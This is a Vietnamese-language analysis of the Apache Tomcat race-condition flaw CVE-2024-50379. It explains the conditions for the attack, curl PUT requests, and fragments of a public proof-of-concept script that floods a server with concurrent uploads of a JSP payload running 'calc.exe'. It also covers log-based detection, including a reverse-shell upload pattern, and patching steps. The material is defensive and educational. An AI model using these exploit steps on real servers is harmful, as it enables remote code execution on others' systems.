

# Tomcat

[CVE](../README.md)

CVE ID       : CVE-2024-50379
Ngày công bố : 17/12/2024
Phần mềm     : Apache Tomcat
Loại lỗ hổng : TOCTOU Race Condition (CWE-367)
Tác động     : Remote Code Execution (RCE)
CVSS Score   : 9.8 / 10 - CRITICAL
Nguồn        : <https://nvd.nist.gov/vuln/detail/cve-2024-50379>

---

## ApacheTomcat là gì?

- **Apache Tomcat** là một phần mềm dùng để **chạy ứng dụng web viết bằng Java** trên máy chủ.
- Khi ta truy cập một trang web, trình duyệt gửi yêu cầu lên server, server xử lý rồi trả về kết quả. Tomcat chính là phần **đứng giữa** - nhận yêu cầu từ trình duyệt, chuyển cho code Java xử lý, rồi trả kết quả về cho người dùng.

- Nó làm được 2 việc chính:
  - **Chạy Servlet & JSP** - Servlet là các đoạn code Java xử lý logic (đăng nhập, truy vấn database...). JSP là file HTML trộn lẫn Java để tạo ra trang web động.
  - **Phục vụ file tĩnh** - HTML, CSS, JS, ảnh... như một web server bình thường.

- Điểm khác biệt so với Nginx hay Apache HTTP Server là chúng chỉ phục vụ file tĩnh hoặc chạy PHP/Python, còn Tomcat chuyên dụng cho Java. Trên thực tế nhiều hệ thống dùng cả hai - Nginx đứng trước nhận request, sau đó chuyển sang Tomcat để xử lý logic Java.


> Tomcat rất phổ biến trong môi trường doanh nghiệp - ngân hàng, bệnh viện, cơ quan chính phủ - bất cứ hệ thống nào viết bằng Java đều có khả năng đang chạy Tomcat ở phía sau.

- Mã CVE này ảnh hưởng đến các phiên bản:
  - ApacheTomcat 11.0.0-M1 đến 11.0.1 (Đã được khắc phục trong phiên bản 11.0.2 trở lên)
  - ApacheTomcat 10.1.0-M1 đến 10.1.33 (Đã được khắc phục trong phiên bản 10.1.34 trở lên)
  - ApacheTomcat 9.0.0.M1 đến 9.0.97 (Đã được khắc phục trong phiên bản 9.0.98 trở lên)

> vậy điều gì xảy ra khi một web server bận rộn đến mức không kịp kiểm tra kỹ những gì mình đang chạy? Đó chính xác là điểm mấu chốt của CVE-2024-50379 - một lỗ hổng nguy hiểm cấp độ 9.8/10 ẩn sâu trong Apache Tomcat.

## Hai Điều Kiện Để Cuộc Tấn Công Xảy Ra

Không phải bất kỳ máy chủ Tomcat nào cũng dễ bị tấn công. Để lỗ hổng này bị khai thác, kẻ tấn công cần hội đủ hai điều kiện cùng lúc.

**Điều kiện thứ nhất: Máy chủ phải cho phép ghi file.**

Theo mặc định, Tomcat chỉ cho phép người dùng đọc nội dung - không ai được phép tải file lên hay xóa file đi. Tuy nhiên, khi quản trị viên kích hoạt chế độ ghi bằng cách chỉnh sửa file `web.xml`, cánh cửa đầu tiên đã mở:

```xml
<init-param>
  <param-name>readonly</param-name>
  <param-value>false</param-value>
</init-param>
```

Khi tham số `readonly` được đặt thành `false`, máy chủ bắt đầu chấp nhận các lệnh HTTP như `PUT` và `DELETE` - tức là người dùng có thể tải file lên server. Đây là một cấu hình không an toàn, nhưng không hiếm gặp trong thực tế.

**Điều kiện thứ hai: Hệ điều hành không phân biệt chữ hoa và chữ thường.**

Đây là yếu tố then chốt. Các hệ điều hành như Windows và macOS không phân biệt `demo.jsp` và `demo.Jsp` - với chúng, đó là một file duy nhất. Nhưng Tomcat thì khác: nó chỉ coi `demo.jsp` là một servlet có thể thực thi, còn `demo.Jsp` chỉ là một file văn bản bình thường.

---

## Servlet là gì?

**Servlet** là một đoạn code Java chạy trên server, có nhiệm vụ **nhận request từ trình duyệt, xử lý, rồi trả về response**.

Hình dung đơn giản thế này: khi bạn đăng nhập vào một trang web, trình duyệt gửi username và password lên server - servlet là thứ đứng ra nhận thông tin đó, kiểm tra trong database, rồi quyết định trả về "đăng nhập thành công" hay "sai mật khẩu".

Về bản chất nó chỉ là một class Java tuân theo một giao thức nhất định:

```java
public class LoginServlet extends HttpServlet {
    protected void doPost(HttpServletRequest request, HttpServletResponse response) {
        String username = request.getParameter("username");
        // xử lý logic...
        response.getWriter().println("Xin chào " + username);
    }
}
```

Và Apache Tomcat chính là phần mềm **chứa và chạy** các servlet đó - nên mới gọi nó là **Servlet Container**. Không có Tomcat (hoặc tương đương), code Java trong servlet không biết phải chạy ở đâu.

Còn **JSP** (JavaServer Pages) mà bài CVE đề cập thực ra cũng là servlet - chỉ là được viết theo dạng HTML trộn Java cho dễ đọc hơn, rồi Tomcat tự biên dịch nó thành servlet khi chạy. Đó chính là điểm bị khai thác trong CVE-2024-50379.

---

## Vậy Đây Là "Race Condition" Như Thế Nào?

Hãy hình dung Tomcat như một người bảo vệ đứng trước cổng. Trước khi cho ai đó vào, anh ta sẽ kiểm tra thẻ - đây là bước **Time-of-Check (TOC)**. Sau khi kiểm tra xong và gật đầu cho qua, anh ta mở cổng - đây là bước **Time-of-Use (TOU)**.

Vấn đề xảy ra khi có kẻ nhanh tay **đánh tráo thẻ** ngay trong khoảnh khắc giữa hai bước đó.

Trong trường hợp này, cuộc tấn công diễn ra theo hai giai đoạn tách biệt.

- **Giai đoạn 1 - Upload (không cần race condition):** Kẻ tấn công tải lên `demo.Jsp`. Tomcat thấy `.Jsp` không phải servlet, cho phép ghi thẳng - không cần tải cao, không cần trick gì. File lên server bình thường.
- **Giai đoạn 2 - Thực thi (đây mới là chỗ cần race condition):** Khi nhận `GET /demo.jsp`, Tomcat gọi `File.getCanonicalPath()` để lấy tên thực của file trên disk - Windows trả về `demo.Jsp`. Tomcat thấy canonical path kết thúc bằng `.Jsp` không khớp với `.jsp` trong URI, kết luận "không phải servlet, serve như static". Dưới tải cao với hàng nghìn request đồng thời, kết quả `getCanonicalPath()` trở nên không nhất quán. Có những request mà bước kiểm tra này bị bỏ qua - Tomcat thấy URI kết thúc bằng `.jsp`, quyết định biên dịch luôn `demo.Jsp` như một servlet thực thụ → RCE.

---

## Minh Họa Thực Tế

Giả sử máy chủ đang chạy ở địa chỉ `http://10.48.169.101:8080`. Nếu thử tải trực tiếp một file `.jsp` lên:

```bash
curl -X PUT -d "test" http://10.48.169.101:8080/demo.jsp
```

> Tomcat sẽ từ chối ngay lập tức - vì nó hiểu rõ `.jsp` là file thực thi, không ai được phép tải lên tùy tiện.

Nhưng nếu đổi tên thành `.Jsp`:

```bash
curl -X PUT -d "test" http://10.48.169.101:8080/demo.Jsp
```

Lần này thành công. Tomcat không nhận ra đây là servlet, nên file được lưu xuống mà không có gì cản trở. Truy cập lại file vừa tạo:

```bash
curl http://10.48.169.101:8080/demo.Jsp
```

> Nội dung được trả về bình thường - như một file văn bản. Cho đến khi máy chủ chịu tải cao, và race condition xảy ra. Lúc đó, `demo.Jsp` không còn được coi là file văn bản nữa. Nó được biên dịch và thực thi. Nếu nội dung bên trong là mã độc, kẻ tấn công đã có Remote Code Execution.

---

## Phân tích sâu script exploit

> PoC script: [iSee857/CVE-2024-50379-PoC](https://github.com/iSee857/CVE-2024-50379-PoC)

Trước khi đi vào thực hành, hãy đọc hiểu chính xác script PoC đang làm gì

### Cấu trúc tổng quan

```python
with concurrent.futures.ThreadPoolExecutor(max_workers=10000) as executor:
    futures = []
    for _ in range(10000):
        futures.append(executor.submit(requests.put,  target_url_put1, ...))  # PUT /aa.Jsp
        futures.append(executor.submit(requests.put,  target_url_put2, ...))  # PUT /bb.Jsp
        futures.append(executor.submit(requests.get,  target_url_get1, ...))  # GET /aa.jsp
        futures.append(executor.submit(requests.get,  target_url_get2, ...))  # GET /bb.jsp
```

**Điểm cốt lõi: script không gửi request tuần tự - nó tạo ra một bão 40.000 request đồng thời (10.000 vòng × 4 request/vòng).**

> `ThreadPoolExecutor` cho phép chạy tất cả các request này cùng một lúc trên nhiều thread. Mục đích duy nhất là làm nghẽn máy chủ Tomcat đến mức nó không còn đủ thời gian kiểm tra kỹ tên file trước khi ghi - đó chính là điều kiện để race condition xảy ra.

### Tại sao cần hai file (aa và bb)?

```python
target_url_put1 = urljoin(target_url, "/aa.Jsp")
target_url_put2 = urljoin(target_url, "/bb.Jsp")
target_url_get1 = urljoin(target_url, "/aa.jsp")
target_url_get2 = urljoin(target_url, "/bb.jsp")
```

> Script không chỉ tấn công một file, mà tấn công song song hai file (`aa` và `bb`). Lý do: tăng xác suất race condition xảy ra. Nếu một file chưa kịp vào đúng trạng thái, file kia có thể đã vào. Đây là kỹ thuật tăng "diện tích" của cửa sổ thời gian dễ bị tấn công.

### PUT `.Jsp` vs GET `.jsp`, thấy khác vậy thôi chứ giống đấy :)))

```python
# Tải lên bằng .Jsp (chữ J viết hoa)
requests.put("/aa.Jsp", data="aa<% Runtime.getRuntime().exec(\"calc.exe\");%>")

# Truy cập bằng .jsp (chữ j viết thường)
requests.get("/aa.jsp")
```

Đây chính là phần core của lỗ hổng. Script khai thác chính xác sự bất nhất giữa Tomcat và hệ điều hành Windows:

- Tomcat **không chặn** PUT `/aa.Jsp` vì `.Jsp` không được nhận diện là servlet
- Windows lưu file đó xuống và xử lý `/aa.Jsp` giống hệt `/aa.jsp` (case-insensitive)
- GET `/aa.jsp` kích hoạt Tomcat **biên dịch và chạy** file - nếu race condition xảy ra đúng lúc, Tomcat biên dịch `aa.Jsp` như một servlet thực thụ

### as_completed - xử lý kết quả ngay khi có

```python
for future in concurrent.futures.as_completed(futures):
    try:
        response = future.result()
        if response.status_code in (200, 201):
            found_vulnerabilities = True
    except Exception as e:
        print(f"Error occurred: {e}")
```

`as_completed()` không chờ tất cả request xong - nó xử lý từng response **ngay khi request đó hoàn thành**. Script quan tâm đến hai status code:

- **201 Created** - Tomcat xác nhận đã ghi file thành công (PUT thành công)
- **200 OK** - Tomcat đã thực thi file và trả về response (GET thành công, tức là code JSP đã chạy)

Khi cả hai đều xuất hiện trong cùng một đợt request, race condition đã xảy ra và RCE được xác nhận.

### Tại sao exception bị nuốt im lặng?

```python
except Exception as e:
    print(f"Error occurred: {e}")
```

Phần lớn request sẽ thất bại - connection timeout, connection refused, server quá tải. Điều đó hoàn toàn được kỳ vọng. Script không cần tất cả 40.000 request thành công - chỉ cần **một** cặp PUT+GET xảy ra đúng khoảnh khắc race condition là đủ.

---

## Phát Hiện

Điểm đặc biệt của CVE-2024-50379 là dù khai thác race condition nhưng lại để lại dấu vết rất rõ - kẻ tấn công buộc phải gửi hàng nghìn request, và tất cả đều được ghi vào log.

### Nhật ký truy cập web

Log nằm tại `C:\Program Files\Apache Software Foundation\<Tomcat Version>\logs\*access_log*`. Pattern cần tìm rất đặc trưng: một luồng PUT/GET xen kẽ liên tục vào cùng một file, với phần mở rộng viết hoa ở PUT và viết thường ở GET:

```http
10.14.97.15 - - [30/Jan/2025:14:25:34 +0000] "PUT /cve.Jsp HTTP/1.1" 201 -
10.14.97.15 - - [30/Jan/2025:14:25:34 +0000] "GET /cve.jsp HTTP/1.1" 404 749
...
10.14.97.15 - - [30/Jan/2025:14:25:39 +0000] "PUT /cve.Jsp HTTP/1.1" 409 654
10.14.97.15 - - [30/Jan/2025:14:25:39 +0000] "GET /cve.jsp HTTP/1.1" 404 749
10.14.97.15 - - [30/Jan/2025:14:25:39 +0000] "PUT /cve.Jsp HTTP/1.1" 204 -
10.14.97.15 - - [30/Jan/2025:14:25:39 +0000] "GET /cve.jsp HTTP/1.1" 200 32
```

Đọc log từ cuối lên: dòng `GET /cve.jsp HTTP/1.1" 200` xác nhận race condition đã xảy ra - Tomcat đã thực thi file. Tất cả các `404` phía trên là các lần thử thất bại trước đó.

Nếu server không bật PUT trực tiếp mà dùng form upload, pattern vẫn tương tự - chỉ thay PUT bằng POST đến endpoint upload:

```http
223.199.178.14 - - [31/Jan/2025:18:32:11 +0000] "POST /app/template-upload.jsp HTTP/1.1" 200 782
223.199.178.14 - - [31/Jan/2025:18:32:11 +0000] "GET /uploads/revshell.jsp HTTP/1.1" 404 749
...
223.199.178.14 - - [31/Jan/2025:18:32:11 +0000] "POST /app/template-upload.jsp HTTP/1.1" 200 782
223.199.178.14 - - [31/Jan/2025:18:32:11 +0000] "GET /uploads/revshell.jsp HTTP/1.1" 200 32
```

Dấu hiệu đáng ngờ: cùng một IP gửi hàng trăm cặp POST+GET trong vài giây, với status code nhảy từ 404 sang 200 ở cuối.

### Nhật ký hệ thống

Ngoài web log, hai dấu hiệu ở tầng OS giúp phát hiện:

- **File creation** - File JSP được tải lên nằm lại trong webroot cho đến khi bị xóa thủ công. File có tên ngẫu nhiên hoặc đáng ngờ (`revshell.jsp`, `shell.Jsp`) chứa chuỗi `.exec()` bên trong là indicator rõ ràng.
- **Process execution** - Khi JSP payload chạy, Tomcat tạo ra tiến trình con. Trên Windows, thấy tiến trình `cmd.exe` hoặc `ncat.exe` được spawn bởi tiến trình Tomcat là dấu hiệu tấn công đáng tin cậy - Tomcat bình thường không tạo ra shell.

---

## Khắc Phục

### Kiểm tra ngay

Bước đầu tiên: xem file `web.xml` của Tomcat. Nếu `readonly` không được đặt thành `false`, bạn không bị ảnh hưởng bởi lỗ hổng này ngay cả khi chưa vá.

```xml
<!-- Nếu thấy cấu hình này → đổi false thành true hoặc xóa cả block -->
<init-param>
  <param-name>readonly</param-name>
  <param-value>false</param-value>
</init-param>
```

Nếu tính năng ghi file không cần thiết, đặt lại `true` là đủ để chặn vector tấn công này.

### Nâng cấp phiên bản

Các phiên bản vá hoàn toàn (bao gồm kiểm tra `sun.io.useCanonCaches` tự động):

| Phiên bản hiện tại | Nâng cấp lên |
|---|---|
| 9.0.0.M1 – 9.0.97 | **9.0.99** trở lên |
| 10.1.0-M1 – 10.1.33 | **10.1.35** trở lên |
| 11.0.0-M1 – 11.0.1 | **11.0.3** trở lên |

Nếu chỉ nâng lên 9.0.98 / 10.1.34 / 11.0.2 (các phiên bản vá một phần), cần thêm bước tùy theo Java version:

- **Java 8 hoặc Java 11:** đặt thuộc tính hệ thống `sun.io.useCanonCaches=false`
- **Java 17:** khôi phục `sun.io.useCanonCaches=false` nếu giá trị mặc định đã bị thay đổi

Lý do cần bước này: `sun.io.useCanonCaches` kiểm soát cách JVM cache đường dẫn file. Khi cache bị bỏ qua, OS phải tra cứu đường dẫn thực tế mỗi lần - phá vỡ điều kiện để race condition xảy ra.

---

## Bài Học Rút Ra

CVE-2024-50379 là minh chứng rõ ràng cho thấy bảo mật không chỉ nằm ở phần mềm - mà còn ở cách phần mềm đó tương tác với hệ điều hành bên dưới. Một sự không nhất quán nhỏ trong cách xử lý tên file đã tạo ra kẽ hở cho toàn bộ server bị chiếm quyền kiểm soát.

Nếu bạn đang vận hành Apache Tomcat, hãy kiểm tra ngay:

- Phiên bản đang dùng có nằm trong vùng bị ảnh hưởng không.
- Cấu hình `readonly` trong `web.xml` đang là `true` hay `false`.

---

*Nguồn tham khảo: [NVD - CVE-2024-50379](https://nvd.nist.gov/vuln/detail/cve-2024-50379) | [Apache Tomcat Security](https://tomcat.apache.org/security-9.html) | [PoC - iSee857](https://github.com/iSee857/CVE-2024-50379-PoC)*
